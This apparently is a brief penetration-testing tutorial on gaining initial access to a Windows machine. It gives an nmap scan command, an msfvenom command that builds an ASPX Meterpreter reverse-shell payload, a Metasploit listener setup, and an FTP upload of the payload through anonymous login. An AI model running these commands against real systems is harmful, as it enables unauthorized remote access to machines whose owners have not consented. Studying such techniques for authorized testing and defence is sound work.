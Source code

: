 # Gaining a Foothold

Gaining a foothold is the attacker way to get a low privileged user in a windows machine 

In the first stage we are scanning all the ports in the network of the host using the scanners like nmap

```
nmap -A -T4 -p- ip_address
```

There could be a possibility of the ftp port be open (via 21) and allow anonymous login (which can be logged in without any password). File Transfer Protocol is used to upload and download the files in the server

There could be a possibility of upload a file in a ftp login and can be viewed in the webpage which could also make the possibility of the reverse shell. Upload the reverse shell script according to the tech stack (php, asp, etc). For example the host is used to have asp executable

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip_address LPORT=4444 -f aspx > exploit.aspx

// run metasploit simulanously 
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost tun0
run 

// now upload in the ftp login
put exploit.aspx

// viewing in the webpage leads to the reverse shell and now we got the initial low privileged user 
```

We can also manually also exploit it, there are many github repository with the payloads. Here it is one of the foothold to gain low privileged access using ftp anonymous login. There could be many vulnerability exist to do it. The next step after gain low privileged access is to start escalate to higher privilege.


